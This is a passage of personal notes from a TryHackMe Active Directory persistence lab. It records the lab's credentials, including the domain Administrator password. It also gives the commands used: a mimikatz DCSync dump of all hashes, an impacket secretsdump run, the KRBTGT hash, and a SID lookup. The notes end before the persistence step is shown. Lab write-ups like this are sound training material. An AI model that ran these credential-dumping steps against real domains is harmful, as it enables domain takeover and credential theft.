 '''scope
THMCHILDDC - 10.200.61.101
Initial Credentials - http://distributor.za.tryhackme.loc/creds
'''

## Exploitation:
- Added the DNS IP address of THMDC in `/etc/systemd/resolved.conf`
- Restarted the service
```bash
systemctl restart systemd-resolved
```

- If this didnt work revert the file `/etc/systemd/resolved.conf` to normal and add the IP in `/etc/resolv.conf` in nameserver
- Got the credentials
	carolyn.king:Changeme123
- As we already have compromised the domain we have the admin creds as well for the domain `ZA`
	Administrator:tryhackmewouldnotguess1@
---------------------------------------------------------------------------------
- Got in using
```bash
ssh za.tryhackme.loc\\carolyn.king@thmwrk1.za.tryhackme.loc
```

- We can use the DA creds to setup persistence to our low priv user
- Logged in as DA
```bash
ssh za.tryhackme.loc\\Administrator@thmwrk1.za.tryhackme.loc
```

- We can use `mimikatz` to dump all hashes
```bash
lsadump::dcsync /domain:za.tryhackme.loc /all
```

- We can also use `secretsdump.py` to dump them on kali
```bash
secretsdump.py Administrator:'tryhackmewouldnotguess1@'@za.tryhackme.loc
```

- We need the KRBTGT hash
```bash
16f9af38fca3ada405386b3b57366082
```

- We need to get Domain SID and User SID
```bash
Get-ADDomain
```

- We can also get it on our kali
```bash
lookupsid.py Administrator:'tryhackmewouldnotguess1@'@za.tryhackme.loc

# S-1-5-21-3885271727-2693558621-2658995185
```
